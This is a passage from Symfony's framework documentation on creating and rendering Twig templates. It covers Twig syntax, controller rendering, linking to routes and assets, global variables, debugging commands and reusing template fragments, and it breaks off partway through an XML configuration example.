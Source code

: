 Creating and Using Templates
============================

A template is the best way to organize and render HTML from inside your application,
whether you need to render HTML from a :doc:`controller </controller>` or generate
the :doc:`contents of an email </mailer>`. Templates in Symfony are created with
Twig: a flexible, fast, and secure template engine.

.. _twig-language:

Twig Templating Language
------------------------

The `Twig`_ templating language allows you to write concise, readable templates
that are more friendly to web designers and, in several ways, more powerful than
PHP templates. Take a look at the following Twig template example. Even if it's
the first time you see Twig, you probably understand most of it:

.. code-block:: html+twig

    <!DOCTYPE html>
    <html>
        <head>
            <title>Welcome to Symfony!</title>
        </head>
        <body>
            <h1>{{ page_title }}</h1>

            {% if user.isLoggedIn %}
                Hello {{ user.name }}!
            {% endif %}

            {# ... #}
        </body>
    </html>

Twig syntax is based on these three constructs:

* ``{{ ... }}``, used to display the content of a variable or the result of
  evaluating an expression;
* ``{% ... %}``, used to run some logic, such as a conditional or a loop;
* ``{# ... #}``, used to add comments to the template (unlike HTML comments,
  these comments are not included in the rendered page).

You can't run PHP code inside Twig templates, but Twig provides utilities to
run some logic in the templates. For example, **filters** modify content before
being rendered, like the ``upper`` filter to uppercase contents:

.. code-block:: twig

    {{ title|upper }}

Twig comes with a long list of `tags`_, `filters`_ and `functions`_ that are
available by default. In Symfony applications you can also use these
:doc:`Twig filters and functions defined by Symfony </reference/twig_reference>`
and you can :ref:`create your own Twig filters and functions <templates-twig-extension>`.

Twig is fast in the ``prod`` :ref:`environment <configuration-environments>`
(because templates are compiled into PHP and cached automatically), but
convenient to use in the ``dev`` environment (because templates are recompiled
automatically when you change them).

Twig Configuration
~~~~~~~~~~~~~~~~~~

Twig has several configuration options to define things like the format used
to display numbers and dates, the template caching, etc. Read the
:doc:`Twig configuration reference </reference/configuration/twig>` to learn about them.

Creating Templates
------------------

Before explaining in detail how to create and render templates, look at the
following example for a quick overview of the whole process. First, you need to
create a new file in the ``templates/`` directory to store the template contents:

.. code-block:: html+twig

    {# templates/user/notifications.html.twig #}
    <h1>Hello {{ user_first_name }}!</h1>
    <p>You have {{ notifications|length }} new notifications.</p>

Then, create a :doc:`controller </controller>` that renders this template and
passes to it the needed variables::

    // src/Controller/UserController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class UserController extends AbstractController
    {
        // ...

        public function notifications(): Response
        {
            // get the user information and notifications somehow
            $userFirstName = '...';
            $userNotifications = ['...', '...'];

            // the template path is the relative file path from `templates/`
            return $this->render('user/notifications.html.twig', [
                // this array defines the variables passed to the template,
                // where the key is the variable name and the value is the variable value
                // (Twig recommends using snake_case variable names: 'foo_bar' instead of 'fooBar')
                'user_first_name' => $userFirstName,
                'notifications' => $userNotifications,
            ]);
        }
    }

Template Naming
~~~~~~~~~~~~~~~

Symfony recommends the following for template names:

* Use `snake case`_ for filenames and directories (e.g. ``blog_posts.html.twig``,
  ``admin/default_theme/blog/index.html.twig``, etc.);
* Define two extensions for filenames (e.g. ``index.html.twig`` or
  ``blog_posts.xml.twig``) being the first extension (``html``, ``xml``, etc.)
  the final format that the template will generate.

Although templates usually generate HTML contents, they can generate any
text-based format. That's why the two-extension convention simplifies the way
templates are created and rendered for multiple formats.

Template Location
~~~~~~~~~~~~~~~~~

Templates are stored by default in the ``templates/`` directory. When a service
or controller renders the ``product/index.html.twig`` template, they are actually
referring to the ``<your-project>/templates/product/index.html.twig`` file.

The default templates directory is configurable with the
:ref:`twig.default_path <config-twig-default-path>` option and you can add more
template directories :ref:`as explained later <templates-namespaces>` in this article.

Template Variables
~~~~~~~~~~~~~~~~~~

A common need for templates is to print the values stored in the templates
passed from the controller or service. Variables usually store objects and
arrays instead of strings, numbers and boolean values. That's why Twig provides
quick access to complex PHP variables. Consider the following template:

.. code-block:: html+twig

    <p>{{ user.name }} added this comment on {{ comment.publishedAt|date }}</p>

The ``user.name`` notation means that you want to display some information
(``name``) stored in a variable (``user``). Is ``user`` an array or an object?
Is ``name`` a property or a method? In Twig this doesn't matter.

When using the ``foo.bar`` notation, Twig tries to get the value of the variable
in the following order:

#. ``$foo['bar']`` (array and element);
#. ``$foo->bar`` (object and public property);
#. ``$foo->bar()`` (object and public method);
#. ``$foo->getBar()`` (object and *getter* method);
#. ``$foo->isBar()`` (object and *isser* method);
#. ``$foo->hasBar()`` (object and *hasser* method);
#. If none of the above exists, use ``null`` (or throw a ``Twig\Error\RuntimeError``
   exception if the :ref:`strict_variables <config-twig-strict-variables>`
   option is enabled).

This allows to evolve your application code without having to change the
template code (you can start with array variables for the application proof of
concept, then move to objects with methods, etc.)

.. _templates-link-to-pages:

Linking to Pages
~~~~~~~~~~~~~~~~

Instead of writing the link URLs by hand, use the ``path()`` function to
generate URLs based on the :ref:`routing configuration <routing-creating-routes>`.

Later, if you want to modify the URL of a particular page, all you'll need to do
is change the routing configuration: the templates will automatically generate
the new URL.

Consider the following routing configuration:

.. configuration-block::

    .. code-block:: php-attributes

        // src/Controller/BlogController.php
        namespace App\Controller;

        // ...
        use Symfony\Component\HttpFoundation\Response;
        use Symfony\Component\Routing\Attribute\Route;

        class BlogController extends AbstractController
        {
            #[Route('/', name: 'blog_index')]
            public function index(): Response
            {
                // ...
            }

            #[Route('/article/{slug}', name: 'blog_post')]
            public function show(string $slug): Response
            {
                // ...
            }
        }

    .. code-block:: yaml

        # config/routes.yaml
        blog_index:
            path:       /
            controller: App\Controller\BlogController::index

        blog_post:
            path:       /article/{slug}
            controller: App\Controller\BlogController::show

    .. code-block:: xml

        <!-- config/routes.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <routes xmlns="http://symfony.com/schema/routing"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://symfony.com/schema/routing
                https://symfony.com/schema/routing/routing-1.0.xsd">

            <route id="blog_index"
                path="/"
                controller="App\Controller\BlogController::index"/>

            <route id="blog_post"
                path="/article/{slug}"
                controller="App\Controller\BlogController::show"/>
        </routes>

    .. code-block:: php

        // config/routes.php
        use App\Controller\BlogController;
        use Symfony\Component\Routing\Loader\Configurator\RoutingConfigurator;

        return function (RoutingConfigurator $routes): void {
            $routes->add('blog_index', '/')
                ->controller([BlogController::class, 'index'])
            ;

            $routes->add('blog_post', '/articles/{slug}')
                ->controller([BlogController::class, 'show'])
            ;
        };

Use the ``path()`` Twig function to link to these pages and pass the route name
as the first argument and the route parameters as the optional second argument:

.. code-block:: html+twig

    <a href="{{ path('blog_index') }}">Homepage</a>

    {# ... #}

    {% for post in blog_posts %}
        <h1>
            <a href="{{ path('blog_post', {slug: post.slug}) }}">{{ post.title }}</a>
        </h1>

        <p>{{ post.excerpt }}</p>
    {% endfor %}

The ``path()`` function generates relative URLs. If you need to generate
absolute URLs (for example when rendering templates for emails or RSS feeds),
use the ``url()`` function, which takes the same arguments as ``path()``
(e.g. ``<a href="{{ url('blog_index') }}"> ... </a>``).

.. _templates-link-to-assets:

Linking to CSS, JavaScript and Image Assets
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If a template needs to link to a static asset (e.g. an image), Symfony provides
an ``asset()`` Twig function to help generate that URL. First, install the
``asset`` package:

.. code-block:: terminal

    $ composer require symfony/asset

You can now use the ``asset()`` function:

.. code-block:: html+twig

    {# the image lives at "public/images/logo.png" #}
    <img src="{{ asset('images/logo.png') }}" alt="Symfony!"/>

    {# the CSS file lives at "public/css/blog.css" #}
    <link href="{{ asset('css/blog.css') }}" rel="stylesheet"/>

    {# the JS file lives at "public/bundles/acme/js/loader.js" #}
    <script src="{{ asset('bundles/acme/js/loader.js') }}"></script>

The ``asset()`` function's main purpose is to make your application more portable.
If your application lives at the root of your host (e.g. ``https://example.com``),
then the rendered path should be ``/images/logo.png``. But if your application
lives in a subdirectory (e.g. ``https://example.com/my_app``), each asset path
should render with the subdirectory (e.g. ``/my_app/images/logo.png``). The
``asset()`` function takes care of this by determining how your application is
being used and generating the correct paths accordingly.

.. tip::

    The ``asset()`` function supports various cache busting techniques via the
    :ref:`version <reference-framework-assets-version>`,
    :ref:`version_format <reference-assets-version-format>`, and
    :ref:`json_manifest_path <reference-assets-json-manifest-path>` configuration options.

If you need absolute URLs for assets, use the ``absolute_url()`` Twig function
as follows:

.. code-block:: html+twig

    <img src="{{ absolute_url(asset('images/logo.png')) }}" alt="Symfony!"/>

    <link rel="shortcut icon" href="{{ absolute_url('favicon.png') }}">

Build, Versioning & More Advanced CSS, JavaScript and Image Handling
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

For help building and versioning your JavaScript and
CSS assets in a modern way, read about :doc:`Symfony's AssetMapper </frontend>`.

.. _twig-app-variable:

The App Global Variable
~~~~~~~~~~~~~~~~~~~~~~~

Symfony creates a context object that is injected into every Twig template
automatically as a variable called ``app``. It provides access to some
application information:

.. code-block:: html+twig

    <p>Username: {{ app.user.username ?? 'Anonymous user' }}</p>
    {% if app.debug %}
        <p>Request method: {{ app.request.method }}</p>
        <p>Application Environment: {{ app.environment }}</p>
    {% endif %}

The ``app`` variable (which is an instance of :class:`Symfony\\Bridge\\Twig\\AppVariable`)
gives you access to these variables:

``app.user``
    The :ref:`current user object <create-user-class>` or ``null`` if the user
    is not authenticated.
``app.request``
    The :class:`Symfony\\Component\\HttpFoundation\\Request` object that stores
    the current :ref:`request data <accessing-request-data>` (depending on your
    application, this can be a :ref:`sub-request <http-kernel-sub-requests>`
    or a regular request).
``app.session``
    The :class:`Symfony\\Component\\HttpFoundation\\Session\\Session` object that
    represents the current :doc:`user's session </session>` or ``null`` if there is none.
``app.flashes``
    An array of all the :ref:`flash messages <flash-messages>` stored in the session.
    You can also get only the messages of some type (e.g. ``app.flashes('notice')``).
``app.environment``
    The name of the current :ref:`configuration environment <configuration-environments>`
    (``dev``, ``prod``, etc).
``app.debug``
    True if in :ref:`debug mode <debug-mode>`. False otherwise.
``app.token``
    A :class:`Symfony\\Component\\Security\\Core\\Authentication\\Token\\TokenInterface`
    object representing the security token.
``app.current_route``
    The name of the route associated with the current request or ``null`` if no
    request is available (equivalent to ``app.request.attributes.get('_route')``)
``app.current_route_parameters``
    An array with the parameters passed to the route of the current request or an
    empty array if no request is available (equivalent to ``app.request.attributes.get('_route_params')``)
``app.locale``
    The locale used in the current :ref:`locale switcher <locale-switcher>` context.
``app.enabled_locales``
    The locales enabled in the application.

In addition to the global ``app`` variable injected by Symfony, you can also
inject variables automatically to all Twig templates as explained in the next
section.

.. _templating-global-variables:

Global Variables
~~~~~~~~~~~~~~~~

Twig allows you to automatically inject one or more variables into all
templates. These global variables are defined in the ``twig.globals`` option
inside the main Twig configuration file:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            globals:
                ga_tracking: 'UA-xxxxx-x'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig
                https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:global key="ga_tracking">UA-xxxxx-x</twig:global>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->global('ga_tracking')->value('UA-xxxxx-x');
        };

Now, the variable ``ga_tracking`` is available in all Twig templates, so you
can use it without having to pass it explicitly from the controller or service
that renders the template:

.. code-block:: html+twig

    <p>The Google tracking code is: {{ ga_tracking }}</p>

In addition to static values, Twig global variables can also reference services
from the :doc:`service container </service_container>`. The main drawback is
that these services are not loaded lazily. In other words, as soon as Twig is
loaded, your service is instantiated, even if you never use that global
variable.

To define a service as a global Twig variable, prefix the service ID string
with the ``@`` character, which is the usual syntax to :ref:`refer to services
in container parameters <service-container-parameters>`:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            globals:
                # the value is the service's id
                uuid: '@App\Generator\UuidGenerator'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig
                https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:global key="uuid" id="App\Generator\UuidGenerator" type="service"/>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use function Symfony\Component\DependencyInjection\Loader\Configurator\service;
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->global('uuid')->value(service('App\Generator\UuidGenerator'));
        };

Now you can use the ``uuid`` variable in any Twig template to access to the
``UuidGenerator`` service:

.. code-block:: twig

    UUID: {{ uuid.generate }}

Twig Components
---------------

Twig components are an alternative way to render templates, where each template
is bound to a "component class". This makes it easier to render and re-use
small template "units" - like an alert, markup for a modal, or a category sidebar.

For more information, see `UX Twig Component`_.

Twig components also have one other superpower: they can become "live", where
they automatically update (via Ajax) as the user interacts with them. For example,
when your user types into a box, your Twig component will re-render via Ajax to
show a list of results!

To learn more, see `UX Live Component`_.

.. _templates-rendering:

Rendering Templates
-------------------

Rendering a Template in Controllers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If your controller extends from the :ref:`AbstractController <the-base-controller-class-services>`,
use the ``render()`` helper::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        public function index(): Response
        {
            // ...

            // the `render()` method returns a `Response` object with the
            // contents created by the template
            return $this->render('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);

            // the `renderView()` method only returns the contents created by the
            // template, so you can use those contents later in a `Response` object
            $contents = $this->renderView('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);

            return new Response($contents);
        }
    }

If your controller does not extend from ``AbstractController``, you'll need to
:ref:`fetch services in your controller <controller-accessing-services>` and
use the ``render()`` method of the ``twig`` service.

.. _templates-template-attribute:

Another option is to use the ``#[Template()]`` attribute on the controller method
to define the template to render::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bridge\Twig\Attribute\Template;
    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        #[Template('product/index.html.twig')]
        public function index(): array
        {
            // ...

            // when using the #[Template()] attribute, you only need to return
            // an array with the parameters to pass to the template (the attribute
            // is the one which will create and return the Response object).
            return [
                'category' => '...',
                'promotions' => ['...', '...'],
            ];
        }
    }

The :ref:`base AbstractController <the-base-controller-classes-services>` also provides the
:method:`Symfony\\Bundle\\FrameworkBundle\\Controller\\AbstractController::renderBlock`
and :method:`Symfony\\Bundle\\FrameworkBundle\\Controller\\AbstractController::renderBlockView`
methods::

    // src/Controller/ProductController.php
    namespace App\Controller;

    use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
    use Symfony\Component\HttpFoundation\Response;

    class ProductController extends AbstractController
    {
        // ...

        public function price(): Response
        {
            // ...

            // the `renderBlock()` method returns a `Response` object with the
            // block contents
            return $this->renderBlock('product/index.html.twig', 'price_block', [
                // ...
            ]);

            // the `renderBlockView()` method only returns the contents created by the
            // template block, so you can use those contents later in a `Response` object
            $contents = $this->renderBlockView('product/index.html.twig', 'price_block', [
                // ...
            ]);

            return new Response($contents);
        }
    }

This might come handy when dealing with blocks in
:ref:`templates inheritance <template_inheritance-layouts>` or when using
`Turbo Streams`_.

Rendering a Template in Services
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Inject the ``twig`` Symfony service into your own services and use its
``render()`` method. When using :doc:`service autowiring </service_container/autowiring>`
you only need to add an argument in the service constructor and type-hint it with
the `Twig Environment`_::

    // src/Service/SomeService.php
    namespace App\Service;

    use Twig\Environment;

    class SomeService
    {
        public function __construct(
            private Environment $twig,
        ) {
        }

        public function someMethod(): void
        {
            // ...

            $htmlContents = $this->twig->render('product/index.html.twig', [
                'category' => '...',
                'promotions' => ['...', '...'],
            ]);
        }
    }

Rendering a Template in Emails
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Read the docs about the :ref:`mailer and Twig integration <mailer-twig>`.

.. _templates-render-from-route:

Rendering a Template Directly from a Route
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Although templates are usually rendered in controllers and services, you can
render static pages that don't need any variables directly from the route
definition. Use the special :class:`Symfony\\Bundle\\FrameworkBundle\\Controller\\TemplateController`
provided by Symfony:

.. configuration-block::

    .. code-block:: yaml

        # config/routes.yaml
        acme_privacy:
            path:          /privacy
            controller:    Symfony\Bundle\FrameworkBundle\Controller\TemplateController
            defaults:
                # the path of the template to render
                template:  'static/privacy.html.twig'

                # the response status code (default: 200)
                statusCode: 200

                # special options defined by Symfony to set the page cache
                maxAge:    86400
                sharedAge: 86400

                # whether or not caching should apply for client caches only
                private: true

                # optionally you can define some arguments passed to the template
                context:
                    site_name: 'ACME'
                    theme: 'dark'

                # optionally you can define HTTP headers to add to the response
                headers:
                    Content-Type: 'text/html'
                    foo: 'bar'

    .. code-block:: xml

        <!-- config/routes.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <routes xmlns="http://symfony.com/schema/routing"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://symfony.com/schema/routing https://symfony.com/schema/routing/routing-1.0.xsd">

            <route id="acme_privacy"
                path="/privacy"
                controller="Symfony\Bundle\FrameworkBundle\Controller\TemplateController">
                <!-- the path of the template to render -->
                <default key="template">static/privacy.html.twig</default>

                <!-- the response status code (default: 200) -->
                <default key="statusCode">200</default>

                <!-- special options defined by Symfony to set the page cache -->
                <default key="maxAge">86400</default>
                <default key="sharedAge">86400</default>

                <!-- whether or not caching should apply for client caches only -->
                <default key="private">true</default>

                <!-- optionally you can define some arguments passed to the template -->
                <default key="context">
                    <default key="site_name">ACME</default>
                    <default key="theme">dark</default>
                </default>

                <!-- optionally you can define HTTP headers to add to the response -->
                <default key="headers">
                    <default key="Content-Type">text/html</default>
                </default>
            </route>
        </routes>

    .. code-block:: php

        // config/routes.php
        use Symfony\Bundle\FrameworkBundle\Controller\TemplateController;
        use Symfony\Component\Routing\Loader\Configurator\RoutingConfigurator;

        return function (RoutingConfigurator $routes): void {
            $routes->add('acme_privacy', '/privacy')
                ->controller(TemplateController::class)
                ->defaults([
                    // the path of the template to render
                    'template'  => 'static/privacy.html.twig',

                    // the response status code (default: 200)
                    'statusCode' => 200,

                    // special options defined by Symfony to set the page cache
                    'maxAge'    => 86400,
                    'sharedAge' => 86400,

                    // whether or not caching should apply for client caches only
                    'private' => true,

                    // optionally you can define some arguments passed to the template
                    'context' => [
                        'site_name' => 'ACME',
                        'theme' => 'dark',
                        ],

                    // optionally you can define HTTP headers to add to the response
                    'headers' => [
                        'Content-Type' => 'text/html',
                    ]
                ])
            ;
        };

.. versionadded:: 7.2

    The ``headers`` option was introduced in Symfony 7.2.

Checking if a Template Exists
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Templates are loaded in the application using a `Twig template loader`_, which
also provides a method to check for template existence. First, get the loader::

    use Twig\Environment;

    class YourService
    {
        // this code assumes that your service uses autowiring to inject dependencies
        // otherwise, inject the service called 'twig' manually
        public function __construct(Environment $twig)
        {
            $loader = $twig->getLoader();
        }
    }

Then, pass the path of the Twig template to the ``exists()`` method of the loader::

    if ($loader->exists('theme/layout_responsive.html.twig')) {
        // the template exists, do something
        // ...
    }

Debugging Templates
-------------------

Symfony provides several utilities to help you debug issues in your templates.

Linting Twig Templates
~~~~~~~~~~~~~~~~~~~~~~

The ``lint:twig`` command checks that your Twig templates don't have any syntax
errors. It's useful to run it before deploying your application to production
(e.g. in your continuous integration server):

.. code-block:: terminal

    # check all the application templates
    $ php bin/console lint:twig

    # you can also check directories and individual templates
    $ php bin/console lint:twig templates/email/
    $ php bin/console lint:twig templates/article/recent_list.html.twig

    # you can also show the deprecated features used in your templates
    $ php bin/console lint:twig --show-deprecations templates/email/

    # you can also excludes directories
    $ php bin/console lint:twig templates/ --excludes=data_collector --excludes=dev_tool

.. versionadded:: 7.1

    The option to exclude directories was introduced in Symfony 7.1.

When running the linter inside `GitHub Actions`_, the output is automatically
adapted to the format required by GitHub, but you can force that format too:

.. code-block:: terminal

    $ php bin/console lint:twig --format=github

Inspecting Twig Information
~~~~~~~~~~~~~~~~~~~~~~~~~~~

The ``debug:twig`` command lists all the information available about Twig
(functions, filters, global variables, etc.). It's useful to check if your
:ref:`custom Twig extensions <templates-twig-extension>` are working properly
and also to check the Twig features added when :ref:`installing packages <symfony-flex>`:

.. code-block:: terminal

    # list general information
    $ php bin/console debug:twig

    # filter output by any keyword
    $ php bin/console debug:twig --filter=date

    # pass a template path to show the physical file which will be loaded
    $ php bin/console debug:twig @Twig/Exception/error.html.twig

.. _twig-dump-utilities:

The Dump Twig Utilities
~~~~~~~~~~~~~~~~~~~~~~~

Symfony provides a :ref:`dump() function <components-var-dumper-dump>` as an
improved alternative to PHP's ``var_dump()`` function. This function is useful
to inspect the contents of any variable and you can use it in Twig templates too.

First, make sure that the VarDumper component is installed in the application:

.. code-block:: terminal

    $ composer require --dev symfony/debug-bundle

Then, use either the ``{% dump %}`` tag or the ``{{ dump() }}`` function
depending on your needs:

.. code-block:: html+twig

    {# templates/article/recent_list.html.twig #}
    {# the contents of this variable are sent to the Web Debug Toolbar
       instead of dumping them inside the page contents #}
    {% dump articles %}

    {% for article in articles %}
        {# the contents of this variable are dumped inside the page contents
           and they are visible on the web page #}
        {{ dump(article) }}

        {# optionally, use named arguments to display them as labels next to
           the dumped contents #}
        {{ dump(blog_posts: articles, user: app.user) }}

        <a href="/article/{{ article.slug }}">
            {{ article.title }}
        </a>
    {% endfor %}

To avoid leaking sensitive information, the ``dump()`` function/tag is only
available in the ``dev`` and ``test`` :ref:`configuration environments <configuration-environments>`.
If you try to use it in the ``prod`` environment, you will see a PHP error.

.. _templates-reuse-contents:

Reusing Template Contents
-------------------------

.. _templates-include:

Including Templates
~~~~~~~~~~~~~~~~~~~

If certain Twig code is repeated in several templates, you can extract it into a
single "template fragment" and include it in other templates. Imagine that the
following code to display the user information is repeated in several places:

.. code-block:: html+twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    <div class="user-profile">
        <img src="{{ user.profileImageUrl }}" alt="{{ user.fullName }}"/>
        <p>{{ user.fullName }} - {{ user.email }}</p>
    </div>

First, create a new Twig template called ``blog/_user_profile.html.twig`` (the
``_`` prefix is optional, but it's a convention used to better differentiate
between full templates and template fragments).

Then, remove that content from the original ``blog/index.html.twig`` template
and add the following to include the template fragment:

.. code-block:: twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    {{ include('blog/_user_profile.html.twig') }}

The ``include()`` Twig function takes as argument the path of the template to
include. The included template has access to all the variables of the template
that includes it (use the `with_context`_ option to control this).

You can also pass variables to the included template. This is useful for example
to rename variables. Imagine that your template stores the user information in a
variable called ``blog_post.author`` instead of the ``user`` variable that the
template fragment expects. Use the following to *rename* the variable:

.. code-block:: twig

    {# templates/blog/index.html.twig #}

    {# ... #}
    {{ include('blog/_user_profile.html.twig', {user: blog_post.author}) }}

.. _templates-embed-controllers:

Embedding Controllers
~~~~~~~~~~~~~~~~~~~~~

:ref:`Including template fragments <templates-include>` is useful to reuse the
same content on several pages. However, this technique is not the best solution
in some cases.

Imagine that the template fragment displays the three most recent blog articles.
To do that, it needs to make a database query to get those articles. When using
the ``include()`` function, you'd need to do the same database query in every
page that includes the fragment. This is not very convenient.

A better alternative is to **embed the result of executing some controller**
with the ``render()`` and ``controller()`` Twig functions.

First, create the controller that renders a certain number of recent articles::

    // src/Controller/BlogController.php
    namespace App\Controller;

    use Symfony\Component\HttpFoundation\Response;
    // ...

    class BlogController extends AbstractController
    {
        public function recentArticles(int $max = 3): Response
        {
            // get the recent articles somehow (e.g. making a database query)
            $articles = ['...', '...', '...'];

            return $this->render('blog/_recent_articles.html.twig', [
                'articles' => $articles
            ]);
        }
    }

Then, create the ``blog/_recent_articles.html.twig`` template fragment (the
``_`` prefix in the template name is optional, but it's a convention used to
better differentiate between full templates and template fragments):

.. code-block:: html+twig

    {# templates/blog/_recent_articles.html.twig #}
    {% for article in articles %}
        <a href="{{ path('blog_show', {slug: article.slug}) }}">
            {{ article.title }}
        </a>
    {% endfor %}

Now you can call to this controller from any template to embed its result:

.. code-block:: html+twig

    {# templates/base.html.twig #}

    {# ... #}
    <div id="sidebar">
        {# if the controller is associated with a route, use the path() or url() functions #}
        {{ render(path('latest_articles', {max: 3})) }}
        {{ render(url('latest_articles', {max: 3})) }}

        {# if you don't want to expose the controller with a public URL,
           use the controller() function to define the controller to execute #}
        {{ render(controller(
            'App\\Controller\\BlogController::recentArticles', {max: 3}
        )) }}
    </div>

.. _fragments-path-config:

When using the ``controller()`` function, controllers are not accessed using a
regular Symfony route but through a special URL used exclusively to serve those
template fragments. Configure that special URL in the ``fragments`` option:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/framework.yaml
        framework:
            # ...
            fragments: { path: /_fragment }

    .. code-block:: xml

        <!-- config/packages/framework.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:framework="http://symfony.com/schema/dic/symfony"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
